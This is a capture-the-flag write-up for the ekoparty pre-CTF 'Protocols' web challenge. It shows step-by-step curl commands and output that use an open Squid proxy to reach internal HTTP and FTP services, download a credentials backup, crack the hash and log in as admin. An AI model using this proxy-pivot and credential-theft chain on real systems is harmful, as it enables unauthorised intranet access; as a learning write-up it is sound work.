 ## ekoparty_pre-ctf: web100

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| ekoparty_pre-ctf | Protocols | Web |    100 |


>*Description*
>Hack the intranet!
>http://challs.ctf.site:10002 

----------
## Write-up

Going to the site we are greeted with a squid error, squid is a proxy so lets use it as one:

>```
>$ curl -x http://challs.ctf.site:10002/ http://localhost:3128 -I
>HTTP/1.0 403 Forbidden
>Server: squid/3.1.20
>Mime-Version: 1.0
>Date: Wed, 16 Sep 2015 08:59:53 GMT
>Content-Type: text/html
>Content-Length: 3161
>X-Squid-Error: ERR_ACCESS_DENIED 0
>Vary: Accept-Language
>Content-Language: en
>X-Cache: MISS from localhost
>X-Cache-Lookup: NONE from localhost:3128
>Via: 1.0 localhost (squid/3.1.20)
>Connection: keep-alive
>```

I got stuck here for quite a while, it turns out that instead of requesting *localhost* we need to request *127.0.0.1*, much thanks to IRC for the help:

>```
>curl -x http://challs.ctf.site:10002/ http://127.0.0.1
>Intranet news
>Intranet server: insecure channel - This site has been moved
>```

More recon:

>```
>curl -k -x http://challs.ctf.site:10002/ https://127.0.0.1/robots.txt
>User-agent: *
>Disallow: /4dm1np4n3l
>```

Trying to explore the site some and SQL injection on the adminpanel did not lead to anything, remembering the challenge name is "Protocols" we try a different protocol:

>```
>$ curl -k -x http://challs.ctf.site:10002/ ftp://127.0.0.1/
><snip>
>backups/       
>```

In the backups ftp directory there is a file: credentials.db

>```
>$ curl -k -x http://challs.ctf.site:10002/ ftp://127.0.0.1/backups/credentials.db
>��;�tabl;Msuperadmin@intranet.net31b54c2ac1ccb15b9896966c3fac5c8e
>```

Seems like we got a login as: superadmin@intranet.net with password hash: 31b54c2ac1ccb15b9896966c3fac5c8e

Searching for this hash on google leads to http://pastebin.com/0RYA6PAJ, which has the plaintext: GpmlzRXj0dAlUYU7vPZB

Time to log in as admin:

>```
>$ curl -k -x http://challs.ctf.site:10002/ https://127.0.0.1/4dm1np4n3l/ -d username=superadmin@intranet.net -d password=GpmlzRXj0dAlUYU7vPZB -X POST
><snip>
>Your flag is EKO{Squid_is_also_FTP_Proxy}
>```

The flag is:

>```
>EKO{Squid_is_also_FTP_Proxy}
>```
